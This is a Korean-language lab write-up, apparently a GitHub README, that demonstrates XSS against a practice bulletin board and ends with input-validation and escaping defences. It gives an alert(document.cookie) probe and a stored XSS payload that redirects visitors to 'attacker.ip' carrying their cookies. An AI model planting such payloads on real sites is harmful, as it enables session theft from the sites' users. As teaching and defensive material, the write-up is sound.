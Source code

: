# XSS 모의해킹
 XSS(Cross-Site Scripting) 공격은 악의적인 스크립트를 삽입하여, 해당 웹 사이트의 사용자들이 스크립트를 실행하도록 유도하는 공격입니다.   
 이번 모의해킹에서는 공격자가 악의적인 스크립트를 삽입하여, 해당 웹 사이트에 접속한 사용자들에게 XSS 공격을 수행하는 방법을 다루었습니다.
 
 ## 게시판
 ![게시판 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_board.png)
 ![게시글 보기 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_view.png)
 해당 웹페이지에서는 게시글을 쓸 수 있으며, 게시글을 클릭하면 게시글을 볼 수 있는 화면이 구현되어있습니다.
 
 ## 공격 실습
 ![xss_test](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test.png)
 
 현재 웹페이지가 XSS 공격에 취약한지 알아보기 위하여 게시글에 `<script>alert(document.cookie)</script>` 를 입력해 봅니다.
 
 ![xss_test2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test2.png)
 
 업로드된 게시글을 클릭하면 다음과같이 현재 사용자의 쿠키가 alert로 뜨는것을 확인 할 수 있습니다. 이는 해당 웹페이지가 XSS 공격에 취약하여 공격이 성공하였음을 알 수 있습니다.
 
 ## Stored XSS
 Stored XSS 공격은 공격자가 웹 사이트에 악성 스크립트를 저장해 놓고, 이를 웹 사이트에 접속한 모든 사용자들이 실행하도록 유도하는 공격입니다.
 
 ![xss_stored](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored.png)
 
 게시글에 다음과같이 입력합니다.`<script>document.location="http://attacker.ip/?"+document.cookie;</script>` 해당 스크립트는 이 글을 접속하는 유저의 쿠키와 함께 공격자의 서버로 redirect 시킵니다.
 
 ![xss_stored2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored2.png)
 
 게시글에 접속하면 공격자의 웹서버로 redirection 되는것을 확인 할 수 있습니다.
 
 ![xss_stored3](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored3.png)
 
 공격자의 웹서버 로그에서 사용자의 쿠키를 확인 할 수 있습니다.

## 방어 기법
 1. 입력값 검증: 모든 입력값에 대해서 적절한 검증을 통해 유효한 값만을 받아들이고, 악성 스크립트 등을 필터링하여 처리합니다.

 2. HTML 특수 문자 이스케이프: 입력값이 출력되는 곳에서 문자열을 안전한 HTML 형식으로 변환합니다.
